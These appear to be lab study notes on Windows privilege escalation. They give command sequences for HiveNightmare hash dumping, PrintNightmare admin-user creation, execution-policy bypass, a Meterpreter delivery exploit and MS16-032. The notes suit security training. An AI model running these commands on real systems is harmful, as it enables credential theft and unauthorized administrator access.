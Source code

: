 # Windows Server 2000, 2003, and 2008 and Windows XP and Vista 
```
MS08-067
```
if we land on a host where port 445 is firewalled off
```
MS17-010
```
# Windows 10
```
CVE-2021-36934 HiveNightmare, aka SeriousSam
```
## Checking Permissions on the SAM File
We can check for this vulnerability using icacls to check permissions on the SAM file. In our case, we have a vulnerable version as the file is readable by the BUILTIN\Users group
```
icacls c:\windows\system32\config\SAM
```
```
BUILTIN\Users: (RX)
```
### Performing Attack and Parsing Password Hashes
```
https://github.com/GossiTheDog/HiveNightmare
```
This PoC can be used to perform the attack, creating copies of the aforementioned registry hives:
```
PS C:\Users\htb-student\Desktop> .\HiveNightmare.exe
```
These copies can then be transferred back to the attack host, where impacket-secretsdump is used to extract the hashes:
```
impacket-secretsdump -sam SAM-2021-08-07 -system SYSTEM-2021-08-07 -security SECURITY-2021-08-07 local
```
# Domain Controllers, Windows 7 and 10
## CVE-2021-1675/CVE-2021-34527 PrintNightmar
```
https://github.com/cube0x0/CVE-2021-1675
```
```
https://github.com/calebstewart/CVE-2021-1675
```
1. Checking for Spooler Service
```
PS C:\htb> ls \\localhost\pipe\spoolss
```
2. If it is not running, we will receive a "path does not exist" error.
3. bypassing the execution policy on the target host
```
PS C:\htb> Set-ExecutionPolicy Bypass -Scope Process
```
4. Adding Local Admin with PrintNightmare PowerShell PoC
```
PS C:\htb> Import-Module .\CVE-2021-1675.ps1
```
```
PS C:\htb> Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"
```
5. Confirming New Admin User
```
net user hacker
```
⇒ You have to login as the user hacker in order to gave Administrator privileges and run a cmd as Administrator
```
impacket-rpcdump @<ip>
```
1. Search for MS-RPRN: If it exists then it is vulnerable to PrintNightmare
# Examining Installed Updates
We can examine the installed updates in several ways. Below are three separate commands we can use.
```
PS C:\htb> systeminfo
```
```
PS C:\htb> wmic qfe list brief
```
```
PS C:\htb> Get-Hotfix
```
# Dealing with End of Life Systems
```
C:\htb> wmic qfe
```
## Windows Server 2008
### Enumeration scripts
#### Sherlock
```
https://github.com/rasta-mouse/Sherlock
```
```
Set-ExecutionPolicy bypass -Scope process
```
```
Import-Module .\Sherlock.ps1
```
```
Find-AllVulns
```
Obtaining a Meterpreter Shell
```
exploit windows/smb/smb_delivery
```
Searching for Local Privilege Escalation Exploit
Use the Vulnerable scripts found in Sherlock
Pay attention to migrating to x64 
#### Windows-Exploit-Suggester
```
https://github.com/Riqky/Windows-Exploit-Suggester
```
## Windows 7
### Gathering Systeminfo Command Output
```
C:\ systeminfo
```
Copy the output and save it on your host machine
```
./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt 
```
### MS16-032
```
PS C:\htb> Set-ExecutionPolicy bypass -scope process
```
```
PS C:\htb> Import-Module .\Invoke-MS16-032.ps1
```
```
PS C:\htb> Invoke-MS16-032
```